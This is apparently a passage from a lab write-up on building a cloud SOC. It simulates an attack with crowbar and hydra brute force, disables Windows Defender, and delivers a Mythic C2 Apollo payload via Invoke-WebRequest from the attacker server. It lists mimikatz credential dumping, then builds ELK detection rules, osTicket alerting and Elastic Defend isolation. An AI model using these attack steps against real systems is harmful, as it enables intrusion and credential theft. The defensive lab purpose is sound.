   - Create a fake `password.txt` file on the target Windows server and exfiltrate it using the Mythic C2 session.

### Setting Up Mythic C2

#### Step 1: Deploy a New VM

1. **Create Ubuntu Server**:
   - Deploy another VM in the cloud with the following specifications:
     - **OS**: Ubuntu 22.04
     - **Resources**: 1 or 2 vCPUs and at least 2 GB of RAM.

#### Step 2: Update the VM

- Run:
```bash
apt-get update && apt-get upgrade -y
```

#### Step 3: Install Docker on Mythic VM

1. **Install Docker**:
   ```bash
   apt install docker-compose
   ```

2. **Install Make**:
   ```bash
   apt install make
   ```

3. **Clone the Mythic Repository**:
   ```bash
   git clone https://github.com/its-a-feature/mythic
   ```

4. **Navigate to the Mythic Directory**:
   ```bash
   cd mythic
   ```

5. **Install Mythic**:
   - Use the shell script to install Mythic:
   ```bash
   ./install_docker_ubuntu.sh
   ```

6. **Restart Docker Service**:
   ```bash
   systemctl restart docker.service
   ```

7. **Check Docker Status**:
   ```bash
   systemctl status docker.service
   ```

8. **Build Mythic**:
   Make sure you are in the Mythic directory and run:
   ```bash
   make
   ```

9. **Start Mythic CLI**:
   ```bash
   ./mythic-cli start
   ```

#### Step 4: Configure Firewall for Mythic

1. **Create a Firewall Rule**:
   - Give it a name (e.g., `Mythic`).
   
2. **Set Rules**:
   - Allow access from your public IP address and the target Windows server

#### Step 5: Access Mythic Web Portal

1. **Connect to Web Portal**:
   - Open your browser and navigate to:
     ```plaintext
     https://<Mythic_VM_Public_IP>:7443
     ```

2. **Retrieve Credentials**:
   - Find your username and password in a hidden file named `.env` in your Mythic VM directory.
     ```bash
     ls -la # To list hidden files
     cat .env # To view username and password
     ```




3. **Sign In**:
   - Use the retrieved credentials to sign into the Mythic web portal.


Mythic C2 is now set up and ready for use.

## Brute Forcing an RDP Session Using Kali Linux, Generating a Mythic Agent (Apollo), and Establishing Command & Control (C2)

### 1. Creating a Fake Password File on Target Windows Server:
Navigate to the Administrator user and create a folder named `TopSecret`. Create a text document named `password.txt` with the password: `S3cr3tp@s5w0rd`. This simulates an example of poor security practices, as the administrator should not save their password in plain text on the server.

```
C:\Users\Administrator\TopSecret
```


### 2. Setting the Administrator Password:
Set the Administrator user password on the target Windows server to `S3cr3tp@s5w0rd`.

### 3. Preparing for RDP Brute Force Using Kali Linux:
Create a directory on the Kali Linux desktop named `Mythic`:

```bash
mkdir ~/Desktop/Mythic
```

We can create a text file with 50 fake passwords and put the administrator password we just created on the last row. This way, our command will try the 50 bad passwords first and then successfully RDP brute force with the good password on the 51st try. Or, we can copy a password wordlist from Kali Linux. Let's choose one that is not too big, such as `2023-200_most_used_passwords.txt`.


```bash
cp /usr/share/wordlists/seclists/SecLists-master/Passwords/2023-200_most_used_passwords.txt ~/Desktop/Mythic/password.txt
```


This command copies the wordlist to the new directory and renames it to `password.txt`

Edit `password.txt` to add the Administrator password at the end:

```bash
cd ~/Desktop/Mythic
nano password.txt
```

Verify the password list with:

```bash
cat password.txt
```

### 4. Performing the Brute Force Attack with Crowbar:
Install Crowbar if not already installed:

```bash
sudo apt-get install -y crowbar
```

Run the Crowbar command:

```bash
crowbar -b rdp -u Administrator -C password.txt -s 199.247.5.216/32
```

- `-b` specifies the service.
- `-u` is the user account.
- `-C` is the password list.
- `-s` is the target Windows server IP address (the `/32` targets ONLY this IP address).


### 5. RDP into Target Windows Server:
Use xfreerdp to connect via RDP:

```bash
xfreerdp /u:Administrator /p:S3cr3tp@s5w0rd /v:199.247.5.216:3389
```

`-u` specifies the user account.  
`-p` is the password for the user account.  
`-V` is the target Windows server IP address (including the port number).  

![xfreerdp(Screenshots/KaliXfreeRDP.png).


Once connected, let's open CMD and run some discovery commands. We are doing this to simulate what attackers usually do when they gain access to a machine.

```bash
whoami
ipconfig
net user
net user Administrator
net group
net use
ipconfig /all
```


### 6. Disabling Windows Defender:
Disable Windows Defender from the target server.


### 7. Building Mythic C2 Agent (Apollo):
SSH into the Mythic Server and install the Apollo agent:

```bash
./mythic-cli install github https://github.com/MythicAgents/Apollo
```


Create a C2 profile using HTTP:

```bash
./mythic-cli install github https://github.com/MythicC2Profiles/http
```


### 8. Creating a New Payload:
Generate a new payload from the Mythic web portal.


Modify the callback host to the Mythic server's public IP address:

```
http://45.77.53.41
```


Download the payload on the Mythic server:


```bash
wget https://45.77.53.41:7443/direct/download/34ce1813-32d4-484f-99c3-2633a9ea7cb9 --no-check-certificate
```


Since it creates a very long filename (`34ce1813-32d4-484f-99c3-2633a9ea7cb9`), let's rename it to `apollo.exe` or any name you prefer with this command:

```bash
mv 34ce1813-32d4-484f-99c3-2633a9ea7cb9 apollo.exe
```


Let's create a new directory and move the `apollo.exe` file inside it.


### 9. Setting Up HTTP Server and Downloading Payload:
Start an HTTP server on the Mythic server:

```bash
python3 -m http.server 9999
```


Download the payload on the target Windows server:

```powershell
Invoke-WebRequest -Uri http://45.77.53.41:9999/Apollo/apollo.exe -OutFile "C:\Temp\apollo.exe"
```


This command will look for our Mythic server on port 9999 and download `apollo.exe` into the Temp folder of the target Windows server. 

If you encounter any errors, ensure you specify the exact path from where `apollo.exe` was stored in the Mythic server (`/Apollo/apollo.exe`) and allow ports 9999 and 80 from your Mythic server:

```bash 
ufw allow 9999
ufw allow 80
```


Now we should see status 200, indicating success.

We can open File Explorer and verify that `apollo.exe` has been downloaded in the Temp folder of the target Windows server.


### 10. Running the Payload and Establishing Command & Control:
Run the payload in PowerShell:

```powershell
.\apollo.exe
```


Once we run it, we get a callback to our Mythic C2, allowing us to execute commands straight from Mythic. We can click on the telephone icon at the top ("Active callback") and then type in our commands at the bottom of the screen.


Examples of commands we can run include:

```plaintext
whoami 
download 
ifconfig 
netstat 
screenshot 
mimikatz sekurlsa::logonpasswords 
```


## Creating Detection and Alert Rules in ELK for the Mythic C2 Apollo Agent

In this section, we will create a detection and alert rule for the Mythic C2 Apollo agent, as well as build a dashboard with 3 tables.

### Creating an Alert for the Mythic C2 in ELK

1. **Search for the Apollo Agent**  
   Start by searching for `apollo.exe` (or the name you assigned to the Mythic C2 Apollo Agent) in the Kibana Discover search bar.

2. **Maximize a Process Creation Event**  
   Locate a log entry corresponding to a process creation event (Sysmon Event 1) and maximize it to view its details.


3. **Refine Your Search Query**  
   To narrow down your search, include additional parameters such as the SHA256 hash and the original file name. Use the following query:

   ```plaintext
   event.code: "1" and (winlog.event_data.OriginalFileName: "Apollo.exe" or winlog.event_data.Hashes: "SHA256=53FA7B788EE8C7F863A1237CF6B80C5ED8274A0AF433E5EFE430AE1ABCD1A793")
   ```

   This query filters for process creation events related to `Apollo.exe` or its SHA256 hash.

4. **Examine Relevant Fields**  
   After running the query, maximize one of the logs to examine all fields. Choose the following relevant fields for your alert:

   - host.hostname
   - message
   - winlog.event_data.CommandLine
   - winlog.event_data.Image
   - winlog.event_data.ParentCommandLine
   - winlog.event_data.ParentImage
   - winlog.event_data.ProcessGuid
   - winlog.event_data.User
   - winlog.event_data.Hashes
   - winlog.event_data.CurrentDirectory
   - event.provider


5. **Create a New Detection Rule**  
   Navigate to the `Security` tab, click on `Rules`, then select `Detection rules (SIEM)`, and click on `+ Create new rule`. Choose `Custom query`.

6. **Paste Your Query**  
   Scroll down and paste in your refined query:

   ```plaintext
   event.code: "1" and (winlog.event_data.OriginalFileName: "Apollo.exe" or winlog.event_data.Hashes: "SHA256=53FA7B788EE8C7F863A1237CF6B80C5ED8274A0AF433E5EFE430AE1ABCD1A793")
   ```


7. **Add Required Fields**  
   Click on `Required fields` and add all relevant fields you previously selected. Then click on `Continue`.

8. **Configure Rule Settings**  
   Provide a name and description for your rule, set the severity level to critical, and enter the same fields in `Custom highlighted fields`. Click `Continue` again.

9. **Schedule the Rule**  
   Set the rule to run every 5 minutes with a lookback period of 5 minutes, then create and enable the rule.


### Creating a Dashboard with 3 Tables

We will create three tables in our dashboard to monitor specific events:

- **Event ID 3**: A process initating a network connections
- **Event ID 1**: Process creation using PowerShell, CMD, or RUNDLL32
- **Event ID 5001**: Disabling Windows Defender

#### Dashboard Creation

1. **Event ID 1 - Process Creation**  
   Start by searching for Sysmon Event ID 1:


2. **Maximize a Log for Relevant Fields**  
   Maximize one of the documents to identify relevant fields to include in your table.

   ```plaintext
   event.code: "1" and event.provider : "Microsoft-Windows-Sysmon" and (*powershell* or *cmd* or *rundll32*)
   ```

This query identifies process creation events from Sysmon, specifically targeting instances where PowerShell, CMD, or RUNDLL32 are involved.

3. **Event ID 3 - Network Connections**  
   Search for Sysmon Event ID 3:

   ```plaintext
   event.code: "3" and event.provider : "Microsoft-Windows-Sysmon" and winlog.event_data.Initiated : "true" and not winlog.event_data.Image : "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.24090.11-0\MsMpEng.exe"
   ```

This KQL query detects network connection events initiated by Sysmon (event.code: "3"), including only successful connections (winlog.event_data.Initiated: "true") and excluding those from Windows Defender (MsMpEng.exe) to avoid false positives.

4. **Event ID 5001 - Disable Windows Defender**  
   Search for Event ID 5001:

   ```plaintext
   event.code: "5001" and event.provider : "Microsoft-Windows-Windows Defender"
   ```

This query detects the event related to disabling Windows Defender.

With our 3 queries ready, we can now proceed to create our tables in dashboard.

5. **Create Visualizations for Each Table**  
   
    - Navigate to Dashboards, then click on `Create visualization`.
    
    - For each query (Process Creation, Network Connections, Disable Windows Defender), paste your query into the search bar.
    
    - Change from bar chart to table chart.
    
    - Drag relevant fields from the left panel into the middle area of the screen.


6. **Format Each Table**  
   
    - Adjust field order by dragging them as needed from the right of your screen.
    
    - Set the number of values displayed to 999 instead of the default 3.
    
    - Uncheck `Group remaining values as "Other"` in advanced settings.
    
    - Rename field names for clarity (e.g., change “Top 999 values of host.hostname” to “hostnames”).


7. **Save Each Visualization**  
   
    - After configuring each table, click on `Save`.


We now have our alerts set up for detecting suspicious activities related to the Mythic C2 Apollo agent and a dashboard with tables providing clear visibility into critical security events.

## Creating a Ticketing System with osTicket

A **ticketing system** is a must-have for SOC teams to stay organized and handle incidents effectively. It turns issues into tickets, assigns tasks, and tracks progress. Analysts can add private notes to share insights, making it easier for the team to tackle similar problems in the future. This boosts communication, accountability, and overall efficiency in security operations.

Now let's create a ticketing system for our alerts using **open-source osTicket**.

### Deploying a New VM for osTicket

1. We will use **Windows Server 2022**.
   
2. **VM Specifications**:
   - **vCPU**: 1
   - **RAM**: 1 GB
   - **Network**: Place it in your protected **VPC-VNET**.
   - **VM Name**: Choose a name that reflects its purpose, such as `osTicket`.

3. Once the VM is configured and running, RDP into it.

### Installing XAMPP

1. **Download XAMPP**: From the RDP session, download [XAMPP](https://www.apachefriends.org/download.html) to set up a quick web server.

2. **Installation Steps**:
   - Run the installer and keep all defaults by clicking on "Next" until installation is complete.
   - Open the XAMPP Control Panel.
   - Start both **Apache** and **MySQL** services.


3. **Access phpMyAdmin**:
   - Click on "Start" in the XAMPP Control Pannel for `Apache` and `MySQL`.
   - Then click on "Admin" to open the web portal.
   - Navigate to `phpMyAdmin`.


### Configuring phpMyAdmin

1. **User Account Configuration**:
   - Click on `User accounts`.
   - Select the `root` user with `localhost` as the host.
   - Change the `Host name` to your public IP address of the osTicket Windows Server.
   - Set a password and click on `Go`.
   - Repeat this process for the `pma` user.


### Configuring Configuration Files

1. **Edit Apache Configuration**:
   - Navigate to `C:\xampp`, right-click on properties, and edit.
   - Change `apache_domainname=` to your public IP address of the osTicket Windows server and save.


2. **Edit phpMyAdmin Configuration**:
   - Go to `C:\xampp\phpMyAdmin` and edit `config.inc.php`.
   - Update the server's host IP with your public IP address and change passwords accordingly.




### Firewall Configuration

1. **Allow HTTP/HTTPS Traffic**:
   - Open Windows Firewall settings.
   - Create an inbound rule for ports 80 (HTTP) and 443 (HTTPS):
     - Select "New Rule".
     - Choose "Port" and click Next.
     - Input `80, 443` and click Next.
     - Select "Allow the connection" and complete the wizard with a name like "Inbound 80, 443".


### Creating a Database in phpMyAdmin

1. Open phpMyAdmin in your web browser.

2. Click on "New" at the top left of the screen.


3. Enter a name for your database and click "Create".


### Installing osTicket

1. **Download osTicket**: Visit [osTicket](https://osticket.com/) and download osTicket on your Windows server.


2. **Extract Files**: Extract the downloaded files.

3. **Copy Files to Web Directory**:
   - Navigate to `C:\xampp\htdocs` and create a new folder named `osticket`.
   - Copy both folders "scripts" and "upload" into this new folder.


4. **Run osTicket Setup**:
   - In your web browser, navigate to `<osticket_windows_server_IP_address>/osticket/upload/setup`.
   - Follow prompts until you encounter "Configuration file missing". Rename `include/ost-sampleconfig.php` to `ost-config.php`.
   - Change directory to `C:\xampp\htdocs\osticket\upload\include` and rename the `ost-sampleconfig.php` file to `ost-config.php`.


5. Complete the Basic Installation:
   - Fill out all required fields (name, email, username, password).
   - For database settings, enter your public IP address of the osTicket Windows server along with database name, username, and password created in phpMyAdmin.
   - Click on "Install Now".


6. **File Permissions via PowerShell**:
   - Open an admin PowerShell terminal.
   - Change directory to `C:\xampp\htdocs\osticket\upload\include`.
   - Run the command: 
     ```powershell
     icacls ost-config.php /reset
     ```


7. **Access URLs**:
   Copy these URLs for future access:

   - User URL: `http://<your_public_IP>/osticket/upload/`
   
   - Staff Control Panel URL: `http://<your_public_IP>/osticket/upload/scp`


8. Access the admin portal using the staff control panel URL to configure osTicket as needed (e.g., adding agents, setting SLAs).

### Integrating osTicket with ELK

1. Sign into the Admin panel from your staff control portal.

2. Navigate to Manage > API > + Add New API Key.
   
3. Use your ELK server's local IP address, check "Can Create Tickets", and click "Add Key". 

4. Copy this API key for later use.


5. In Kibana, go to Stack Management > Connectors > + Create connector.
> When trying to add an API connector to Elastic, we need to upgrade the license. Let's do that and choose the free 30-day trial.


6. Choose Webhook as the connector type:
   - Set method as POST.
   - Input your osTicket Windows server's private IP address in the URL field.
   - Add an HTTP header with key name as `X-API-Key` and paste your API key.

7. Save & test this connector.


8. Test Webhook Payload:
   Use an example from [osTicket's GitHub](https://github.com/osTicket/osTicket/blob/develop/setup/doc/api/tickets.md) page for testing purposes by copying the XML payload example into Kibana's body section and running it.


9. Check osTicket's Agent panel; you should see a new ticket generated from your API test.


Now you have successfully integrated osTicket with ELK! Any alerts generated in ELK will automatically create tickets in your osTicket ticketing system.


## Modifying Detedtion Rules for Automated Ticket Generation

1. **Access Kibana**:
   - Navigate to **Security > Rules > Detection Rules** in the Kibana web portal.

2. **Edit the Rule**:
   - Select the **SSH Brute Force Attempt** rule and click on `Edit rule settings`.

3. **Configure Actions**:
   - Go to the **Actions** tab and select **Webhook**.
   - Choose the previously created webhook for osTicket.

4. **Set Frequency and Body**:
   - Change the frequency to `For each alert` and `Per rule run`.
   - In the body section, paste the example XML payload from GitHub. Modify it as follows:
     - Remove everything from `<attachments>` to `<ip>`.
     - Change `<name>` to "Elastic".
     - Modify `<email>` if necessary or leave it unchanged.
     - Update `<subject>` to include the rule name by clicking on the plus icon and selecting the rule name.
     - Adjust the message to: "Possible <name of the rule>, please investigate."


5. **Save Changes**:
   - Click on `Save changes`.

6. **Trigger an Alert**:
   - Wait about 10 minutes or use a tool like Hydra in Kali Linux to simulate an SSH brute force attack:
     ```bash
     hydra -l [username] -P [path/to/wordlist] ssh://<target-SSH-Server-Public-IP-address>
     hydra -l root -P 2023-200_most_used_passwords.txt ssh://95.179.247.113
     ```

7. **Check osTicket**:
   - Go to the osTicket web portal to verify if a ticket for SSH Brute Force was created.


8. **Add Rule Link in Ticket**:
   - Modify your alert rule to include a link back to Kibana for easier access by SOC analysts.


   - SSH into your ELK server and set your public IP address in the config file:
     ```bash
     nano /etc/kibana/kibana.yml
     ```
   - Add public IP address to `server.publicBaseUrl: "http://<public-IP-address-ELK-server>:5601"`.


10. **Restart Kibana**:
   ```bash
   systemctl restart kibana.service
   ```
   - Check if Kibana is active:
   ```bash
   systemctl status kibana.service
   ```


## Modifying RDP Brute Force Attempt and Mythic C2 Apollo Agent Rules

1. **Copy Action from SSH Rule**:
   - For both the **RDP Brute Force Attempt** and **Mythic C2 Apollo Agent** rules, copy the action body from the **SSH Brute Force** rule and paste it into the body of the action tab for each respective detection rule.

2. **Run Tests**:
   - For Mythic C2 Apollo Agent: Execute the Mythic C2 Apollo agent again on your target Windows server.

3. **Verify Ticket Creation**:
   - Ensure that both alert rules are now creating tickets in your ticketing system.


## Installing Elastic Defend

Now that we have started the 30-day free trial in Elastic, let's install the EDR of ELK called **Elastic Defend**.

1. **Access Kibana**: From the Kibana web portal, scroll all the way down in the **Management** tab and click on **Integrations**.
2. **Add Elastic Defend**: Click on **Elastic Defend**, then click on `+ Add Elastic Defend`.
3. **Configuration**:
   - Give it a name.
   - Select the **Traditional Endpoints** type and choose the **Complete EDR** option.
   - Click on **Existing hosts**, select the **Windows Target Server**, and then click on **Save and continue**.



4. **Manage Endpoints**: Navigate back to the **Security** tab, click on **Manage**, then click on **Endpoints**. Here, you will see an option under actions labeled **Isolate host**, which is not included in the free version.



5. **Testing with Mythic C2 Apollo Agent**:
   - RDP back into our Target Windows Server and try to run the Mythic C2 Apollo agent again.
   - You will notice that Elastic Defend prevents us from running the Apollo agent and quarantines it, making it invisible even in the Temp folder.


6. **Review Alerts**: Go to the **Alerts** section where you will find a new rule that was not manually created. 


7. **Create a Action for new Rule**:
   - Click on one of the new rules titled **Malware Prevention Alert**.
   - In the flyout, click on **Endpoint Security**, then click on **Edit rule settings**.
   - Go to the Actions tab in the Response Actions, select Elastic Defend, choose an action from the list (let's select `Isolate`), and click on **Save changes**.


8. **Run Mythic Apollo Agent Again**:
   - Since it is no longer on our Target Windows Server, download it again.
   - As soon as you do, Elastic Defend quarantines the Apollo agent before it can be executed.
   - You will see an Elastic Defend message indicating that the host is isolated and that it cannot ping Cloudflare or Google DNS.


9. **Release Host for Testing Again**:
   - To test this again, return to Kibana, go to the Security tab, then Manage, and click on Endpoints.
   - Locate your Target Windows Server; from the right side of your screen, click on the three dots under Action and select `Release host`.


## Conclusion  

This project highlighted the process of building a cloud-based Security Operations Center (SOC), integrating tools like Elastic Stack, osTicket, and Mythic C2 to simulate and respond to real-world cyber threats. From centralized monitoring and custom detection rules to hands-on attack simulations, this lab provided a practical and educational dive into modern SOC operations.  

> **Warning:**  
> **This project is for educational purposes only.**  
> **Do not implement these hacking tools in production environments without explicit authorization. Unauthorized use can result in severe legal and security risks.**
